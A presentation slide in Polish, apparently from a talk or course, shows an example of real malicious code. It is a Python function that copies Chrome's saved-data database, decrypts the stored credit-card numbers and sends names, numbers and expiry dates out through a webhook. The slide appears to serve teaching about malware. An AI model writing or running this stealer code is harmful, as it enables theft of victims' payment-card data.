

# Przykłady prawdziwie złośliwego kodu
Szukanie danych karty kredytowej:
def cs():
    master_key = master()
    login_db = os.environ['USERPROFILE'] + os.sep + \
        r'AppData\Local\Google\Chrome\User Data\default\Web Data'
    shutil.copy2(login_db,
                 "CCvault.db")
    conn = sqlite3.connect("CCvault.db")
    cursor = conn.cursor()
    try:
        cursor.execute("SELECT * FROM credit_cards")
        for r in cursor.fetchall():
            username = r[1]
            encrypted_password = r[4]
            decrypted_password = dpw(encrypted_password, master_key)
            expire_mon = r[2]
            expire_year = r[3]
            hook.send(f"CARD-NAME: " + username + "\nNUMBER: " + decrypted_password + "\nEXPIRY M: " + str(expire_mon) + "\nEXPIRY Y: " + str(expire_year) + "\n" + "*" * 10 + "\n")